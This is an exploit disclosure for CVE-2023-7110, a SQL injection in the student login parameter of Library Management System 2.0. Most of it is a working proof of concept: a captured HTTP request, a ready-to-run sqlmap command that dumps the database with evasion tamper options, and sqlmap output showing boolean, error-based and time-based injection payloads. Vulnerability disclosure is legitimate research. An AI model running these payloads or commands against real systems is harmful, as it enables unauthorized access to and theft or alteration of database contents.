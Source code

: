 # CVE-2023-7110_Library-Management-System_SQL_Injection-2
+ **Exploit Title:** CVE-2023-7110_Library-Management-System_SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7110

## References: 
+ **CVE-2023-7110:** https://vuldb.com/?id.249005
+ https://www.cve.org/CVERecord?id=CVE-2023-7110
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7110
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7110

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'student' in "/libsystem/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the student login panel: "http://localhost/libsystem/login.php"
+ Fill the student id then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 302
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/libsystem/
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

student=test&login=
```

+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p student --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: student (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: student=test' OR NOT 8837=8837-- xdiM&login=

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: student=test' AND (SELECT 9935 FROM(SELECT COUNT(*),CONCAT(0x7162627671,(SELECT (ELT(9935=9935,1))),0x716a7a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- pYgV&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=test' AND (SELECT 5778 FROM (SELECT(SLEEP(5)))XMIO)-- jzYc&login=
---
[12:29:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP, PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:29:49] [INFO] fetching current database
[12:29:49] [INFO] retrieved: 'libsystem'
current database: 'libsystem'
```

+ current database: `libsystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/f6d52d8d-69a3-4915-a235-3126417374ec)

